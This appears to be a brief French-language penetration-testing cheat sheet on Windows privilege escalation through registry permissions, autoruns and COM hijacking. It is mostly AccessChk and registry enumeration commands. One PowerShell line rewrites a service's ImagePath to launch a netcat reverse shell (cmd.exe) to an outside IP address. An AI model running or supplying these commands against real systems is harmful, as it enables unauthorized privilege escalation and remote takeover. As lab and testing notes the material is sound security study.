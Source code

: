 

## Droits sur le registre


## AccessChk (SysinternalsSuite)
### 1. Identifier les droits d'un user sur un service dans le registre

```cmd-session
accesschk.exe /accepteula "user" -kvuqsw hklm\System\CurrentControlSet\services
```

### 2. Changer la valeur d'image path sur la clé

```powershell-session
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```


## Autoruns modifiables

### 1. Identifier les autoruns

```powershell-session
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

Si possible d'écrire dans la location alors Hijacking de binaire

---
# Registry

### Autoruns

identifier autoruns.

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

vérifier droit sur le programme.

```
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

### COM Hijacking

Identifier si possible de modifier un CLSID

```
.\accesschk.exe /accepteula -uwkqvs "<User>" HKLM\Software\Classes
```
